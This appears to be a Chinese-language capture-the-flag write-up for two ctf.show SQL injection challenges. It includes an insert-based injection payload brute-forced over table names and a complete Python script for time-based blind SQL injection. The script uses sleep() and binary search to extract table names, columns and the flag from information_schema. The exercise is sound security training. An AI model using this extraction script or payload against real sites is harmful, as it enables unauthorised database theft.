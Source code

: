 ## web 240

`or`,`mysql`都过滤了，拿不到表名了。不过，题目交代了表名相关信息`Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写`

用bp抓包爆破一下。准备payload：`username=1',(select(group_concat(flag))from(flagbb)))#&password=1`，表名就是爆破点

![240](https://the0n3.top/medias/show-sql/240.png)

![2401](https://the0n3.top/medias/show-sql/2401.png)

回到题目界面刷新倒序，看到flag已经插入进去了

![2402](https://the0n3.top/medias/show-sql/2402.png)

## web 241 delete

在调试工具里可以看到删除逻辑的处理请求

![241](https://the0n3.top/medias/show-sql/241.png)

在接口处尝试sleep函数，可以正常执行。用时间盲注爆出flag

```python
import requests
import time
url='http://000bf014-0e7f-448b-ac7b-97668a2fa081.challenge.ctf.show/api/delete.php'
i=0
flag=''
while True:
    head=1
    tail=127
    i+=1
    while head<tail:
        mid=(head+tail)>>1
        payload={
        # 爆表 banlist,ctfshow_user,flag
        # "id":f"if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.05),1)"
        # 爆字段 id,flag,info
        # "id":f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))>{mid},sleep(0.05),1)"
        # 爆金币
        "id":f"if(ascii(substr((select group_concat(id,flag,info) from flag),{i},1))>{mid},sleep(0.05),1)"
        }
        t1=time.time()
        r=requests.post(url,data=payload)
        t2=time.time()
        # print(t2-t1)#调试
        if t2-t1>0.5:
            head=mid+1
        else:
            tail=mid
    if head!=1:
        flag+=chr(head)
        print(flag)
    else:
        break
```
